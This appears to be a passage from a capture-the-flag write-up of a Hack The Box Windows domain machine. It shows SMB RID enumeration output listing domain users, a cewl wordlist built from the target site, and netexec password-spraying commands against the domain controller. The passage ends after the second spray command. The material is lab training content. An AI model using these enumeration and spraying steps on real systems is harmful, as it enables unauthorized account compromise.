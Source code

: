 ```
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```
The number before each username is your RID. Cool. We got our RIDs for multiple users. Preparing the `(SidTypeUser)` as those are some of the valid usernames
```
# more username     
MANAGER\Zhong
MANAGER\Cheng
MANAGER\Ryan
MANAGER\Raven
MANAGER\JinWoo
MANAGER\ChinHae
```

###### `Preparing Wordlist using cewl for password spraying`
```
# cewl http://manager.htb/ --with-numbers > wordlist 
```
###### `Password Spraying using netexec`
```
# netexec smb 10.10.11.236 -u username -p wordlist  | grep -v 'STATUS_LOGON_FAILURE' 
SMB         10.10.11.236    445    DC01     [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
```

Nothing Interesting found form the wordlist we prepare. Let's use a different wordlist.
```
# netexec smb 10.10.11.236 -u username -p /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  | grep -v 'STATUS_LOGON_FAILURE'
```
